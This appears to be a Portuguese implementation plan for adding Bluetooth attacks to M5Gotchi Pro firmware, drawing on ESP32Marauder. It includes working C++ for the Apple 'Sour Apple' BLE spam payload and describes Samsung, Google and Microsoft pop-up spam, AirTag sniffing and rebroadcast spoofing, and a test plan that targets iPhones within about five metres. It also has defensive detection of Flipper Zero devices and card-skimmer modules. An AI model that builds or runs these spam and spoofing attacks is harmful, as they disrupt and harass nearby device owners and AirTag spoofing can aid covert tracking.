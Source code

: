 # Plano de Implementação: Ataques Bluetooth

## Funcionalidades a Adicionar

### 1. BLE Spam Attacks
**Código Base:** ESP32Marauder `WiFiScan.cpp` linhas 3726-3805

#### Apple Sour Apple
- Envia pacotes BLE que causam pop-ups em iPhones
- Company ID: 0x4C (Apple Inc.)
- Tipos de ação: AirPods, AirTag, etc.

```cpp
// Estrutura do payload Apple
AdvData_Raw[i++] = 0x4C;  // Company ID
AdvData_Raw[i++] = 0x00;
AdvData_Raw[i++] = 0x0F;  // Type
AdvData_Raw[i++] = 0x05;  // Length
AdvData_Raw[i++] = 0xC1;  // Action Flags
```

#### Samsung Spam
- Causa pop-ups em dispositivos Samsung
- Company ID: 0x75, 0x00
- Modelos de relógios Galaxy

#### Google Fast Pair Spam
- Pop-ups em dispositivos Android
- Company ID: 0x2C, 0xFE
- Smart Controller Model ID

#### Microsoft Swiftpair
- Pop-ups em Windows 10/11
- Usa advertising data específico

### 2. AirTag Sniffing & Spoofing
**Código Base:** `WiFiScan.cpp` linhas 235-285

```cpp
// Detecta AirTags por payload
if (payLoad[i] == 0x4C && payLoad[i+1] == 0x00 && 
    payLoad[i+2] == 0x12 && payLoad[i+3] == 0x19) {
    // É um AirTag!
}
```

**Funcionalidades:**
- Listar AirTags detectados
- Salvar payloads
- Spoof (rebroadcast) AirTag detectado

### 3. Flipper Zero Detection
**Código Base:** `WiFiScan.cpp` linhas 285-303

```cpp
// Detecta por Company ID e payload
if (payLoad[i] == 0x81 && payLoad[i+1] == 0x30) {
    color = "Black";  // Flipper Zero Preto
}
```

### 4. Credit Card Skimmer Detection
**Código Base:** Detecta HC-03, HC-05, HC-06

```cpp
// Lista de nomes suspeitos
const char* skimmer_names[] = {
    "HC-03", "HC-05", "HC-06", "linvor"
};
```

---

## Integração com M5Gotchi Pro

### Estrutura de Menus
```
[Bluetooth Menu]
├── BLE Attacks
│   ├── Apple Spam (Sour Apple)
│   ├── Samsung Spam
│   ├── Google Spam
│   ├── Microsoft Spam (Swiftpair)
│   └── Spam All
├── Sniffers
│   ├── AirTag Sniff
│   ├── Flipper Sniff
│   ├── Skimmer Scan
│   └── General BLE Sniff
└── Spoofing
    └── Spoof AirTag
```

### Controles Cardputer
```
[BLE Attack Mode]
↑/↓ : Select attack type
ENTER : Start attack
ESC : Stop / Back to menu
```

---

## Código de Exemplo (Apple Sour Apple)

```cpp
void runAppleBLESpam() {
    NimBLEDevice::init("");
    NimBLEServer *pServer = NimBLEDevice::createServer();
    NimBLEAdvertising *pAdvertising = pServer->getAdvertising();
    
    // Criar payload Apple
    uint8_t payload[17];
    payload[0] = 17 - 1;    // Length
    payload[1] = 0xFF;      // Manufacturer Specific
    payload[2] = 0x4C;      // Apple Inc.
    payload[3] = 0x00;
    payload[4] = 0x0F;      // Type
    payload[5] = 0x05;      // Length
    payload[6] = 0xC1;      // Action Flags
    payload[7] = random(0x27, 0xC0);  // Random action type
    // ... preencher resto
    
    NimBLEAdvertisementData advData;
    advData.addData(std::string((char*)payload, 17));
    
    pAdvertising->setAdvertisementData(advData);
    pAdvertising->start();
    delay(20);
    pAdvertising->stop();
    
    NimBLEDevice::deinit();
}
```

---

## Dependências

### Bibliotecas Necessárias
```ini
lib_deps = 
    h2zero/NimBLE-Arduino@^1.4.1
```

### Configuração M5Stack
```cpp
#define HAS_BT  // Habilitar Bluetooth
```

---

## Testes

### 1. Apple Sour Apple
- **Alvo:** iPhone (iOS 14+)
- **Resultado esperado:** Pop-ups de AirPods/AirTag
- **Distância:** ~5 metros

### 2. AirTag Sniff
- **Alvo:** AirTag real
- **Resultado:** Detectar e mostrar MAC + payload
- **Salvar em:** /airtags.log

### 3. Flipper Sniff
- **Alvo:** Flipper Zero ligado
- **Resultado:** Detectar cor (Black/White/Transparent)
- **Mostrar:** Nome e MAC

---

## Referências
- ESP32Marauder: https://github.com/justcallmekoko/ESP32Marauder
- NimBLE-Arduino: https://github.com/h2zero/NimBLE-Arduino
- Apple Continuity Protocol: https://github.com/furiousMAC/continuity
